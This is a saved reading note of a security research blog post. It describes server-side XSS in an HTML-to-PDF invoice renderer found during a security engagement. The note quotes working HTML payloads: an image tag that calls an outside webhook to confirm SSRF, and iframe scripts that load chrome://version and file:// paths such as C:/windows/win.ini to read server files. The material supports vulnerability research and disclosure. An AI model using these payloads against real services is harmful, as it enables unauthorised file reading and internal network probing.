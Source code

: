 ```yaml
---
author: neodyme.io
aliases:
  - "HTML to PDF Renderer: A Tale of Local File Access and Shellcode Execution"
tags:
  - readwise/articles
url: https://neodyme.io/en/blog/html_renderer_to_rce/#tldr?__readwiseLocation=
date: 2025-05-08
summary: A recent exploration of an HTML to PDF renderer revealed it was using an outdated version of Chromium, which allowed for remote code execution. By exploiting vulnerabilities in this version, the researchers demonstrated how server-side XSS could lead to severe security risks, including unauthorized file access. This case highlights the importance of thorough security testing and the need to treat all user inputs with caution.
---
```

# HTML to PDF Renderer: A Tale of Local File Access and Shellcode Execution

![rw-book-cover](https://neodyme.io/_astro/html_pdf_renderer.WN0D8vsm.png)


In a recent engagement, we found an HTML to PDF converter API endpoint that allowed us to list local directories and files on a remote server. [](https://read.readwise.io/read/01jtqjwze4bma8pzekq52pwagy)

## Introduction and Server-Side XSS

The service we’ve tested allowed us to generate PDF invoices with dynamic content. [](https://read.readwise.io/read/01jtqjz76adevbqyqwgv651eyn)

Encoded HTML passed to a web server? That made our [XSS](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md) senses tingle! Having worked with HTML to PDF renderers before, server-side XSS instantly came to my mind. [](https://read.readwise.io/read/01jtqk0d8b06s6vqv4b9atzybj)

This malicious code then gets evaluated on the remote server. The impact of such attacks can cause:
- [Server Side Request Forgery (SSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Server%20Side%20Request%20Forgery%20(SSRF).md) via iframes, images, or even JavaScript
- [File Inclusion (LFI & RFI)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/File%20Inclusion%20(LFI%20&%20RFI).md) via iframes
- Internal data leak of cookies and application storage in general
- Execute JavaScript if enabled in the browser [](https://read.readwise.io/read/01jtqk1ka64yeqtp4d88z4z6pq)

### Server Side XSS in the EO.WebView framework

The [documentation](https://www.essentialobjects.com/doc/pdf/htmltopdf/overview.html) provides a short example code to convert an HTML file to a PDF:
`EO.Pdf.HtmlToPdf.ConvertUrl("c:\\test.html", "c:\\result.pdf");` [](https://read.readwise.io/read/01jtqk4bsfx07zr46bxa3wj8mw)

Let’s test out some payloads! We started with SSRF, as we expected this to work even if JavaScript is not allowed in the renderer:
```html
<html>
<body>
<img src="https://webhook.site/74db201f-292d-4197-b338-a468515182ef">
</body>
</html>
```

And we got a hit on our webhook! [](https://read.readwise.io/read/01jtqk52xcmx60hpnjk4w1412e)

We decided to fiddle around a bit more and try JavaScript and `chrome://version` to get more details. We tested JavaScript execution by dynamically appending an `<iframe>` element to the website, allowing us to embed “sub-pages” in our PDF:
```html
<html>
<body>
<script>
var iframe = document.createElement('iframe');
iframe.height = 1000
iframe.width = 1000
iframe.src="chrome://version";
document.body.appendChild(iframe)
</script>
</body>
</html>
```

![](https://neodyme.io/blog/html_renderer_to_rce/detailed_version.png)


Last but not least, we tried to read directories and files:
```html
<html>
<body>
<script>
var iframe = document.createElement('iframe');
iframe.height = 300
iframe.width = 1000
iframe.src="file://C:/";
document.body.appendChild(iframe);
var iframe2 = document.createElement('iframe');
iframe2.height = 300
iframe2.width = 1000
iframe2.src="file://C:/windows/win.ini";
document.body.appendChild(iframe2);
</script>
</body>
</html>
```

![](https://neodyme.io/blog/html_renderer_to_rce/file_read.png)


